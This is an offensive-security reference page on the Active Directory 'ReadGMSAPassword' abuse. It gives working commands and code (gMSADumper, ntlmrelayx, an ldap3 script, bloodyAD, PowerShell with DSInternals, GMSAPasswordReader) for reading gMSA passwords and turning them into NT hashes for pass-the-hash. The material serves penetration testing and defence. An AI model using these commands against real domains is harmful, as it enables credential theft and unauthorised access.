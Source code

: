 ```yaml
---
authors: 'CravateRouge, PfiatDe, ShutdownRepo'
category: ad
---
```


# ReadGMSAPassword

This abuse stands out a bit from other abuse cases. It can be carried out when controlling an object that has enough permissions listed in the target gMSA account's `msDS-GroupMSAMembership` attribute's DACL. Usually, these objects are principals that were configured to be explictly allowed to use the gMSA account.

The attacker can then read the gMSA (group managed service accounts) password of the account if those requirements are met.

::: tabs

=== UNIX-like

On UNIX-like systems, [gMSADumper](https://github.com/micahvandeusen/gMSADumper) (Python) can be used to read and decode gMSA passwords. It supports cleartext NTLM, pass-the-hash and Kerberoas authentications.

```bash
gMSADumper.py -u 'user' -p 'password' -d 'domain.local'
```



**Alternative 1**: Impacket's [ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) (Python) tool can be used to read and decode gMSA passwords. :warning: Some tests showed ntlmrelayx missed entries gMSADumper didn't.

```bash
ntlmrelayx.py -t ldaps://10.0.0.5 -debug --dump-gmsa --no-dump --no-da --no-acl --no-validate-privs 
```

> [!TIP]
> In order to easily fake a relayed authentication, once the relay servers are up and running, the tester can browse [http://127.0.0.1/](http://127.0.0.1/) in order to trigger a basic authentication that will then be relayed by ntlmrelayx, like [this](https://arkanoidctf.medium.com/hackthebox-writeup-forest-4db0de793f96).

---
**Alternative 2**: The `msDS-ManagedPassword` attribute can also be manually obtained by running the following Python script. The [following Python code](https://github.com/SecureAuthCorp/impacket/blob/3f3002e1c1dd78a5ee6100d6824ff7b65bbb92b6/impacket/examples/ntlmrelayx/attacks/ldapattack.py#L672-L702) can then be used to decode the blob.

```python
import ldap3
target_dn = "" # something like 'CN=Target User,OU=Standard Accounts,DC=domain,DC=local'
domain = "domain"
username = "username"
user = "{}\\{}".format(domain, username)
password = "password"
server = ldap3.Server(domain)
connection = ldap3.Connection(server = server, user = user, password = password, authentication = ldap3.NTLM)
connection.bind()
connection.search(target_dn, '(&(ObjectClass=msDS-GroupManagedServiceAccount))', search_scope=ldap3.SUBTREE, attributes=['sAMAccountName','msDS-ManagedPassword'])
print(connection.entries)
```
---
**Alternative 3**: Using [bloodyAD](https://github.com/CravateRouge/bloodyAD) (Python)

```bash
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" get object $TargetObject --attr msDS-ManagedPassword
```


=== Windows

On Windows systems, there are multiple ways to read gMSA passwords.

The first one uses the Active Directory and DSInternals PowerShell modules.

```bash
# Save the blob to a variable
$gmsa = Get-ADServiceAccount -Identity 'Target_Account' -Properties 'msDS-ManagedPassword'
$mp = $gmsa.'msDS-ManagedPassword'

# Decode the data structure using the DSInternals module
ConvertFrom-ADManagedPasswordBlob $mp
# Build a NT-Hash for PTH
(ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword | ConvertTo-NTHash
# Alterantive: build a Credential-Object with the Plain Password
$cred = new-object system.management.automation.PSCredential "Domain\Target_Account",(ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword
```

The second one relies on [GMSAPasswordReader](https://github.com/rvazarkar/GMSAPasswordReader) (C#).

```bash
.\GMSAPasswordReader.exe --AccountName 'Target_Account'
```


:::


## Resources

[https://cube0x0.github.io/Relaying-for-gMSA/](https://cube0x0.github.io/Relaying-for-gMSA/)
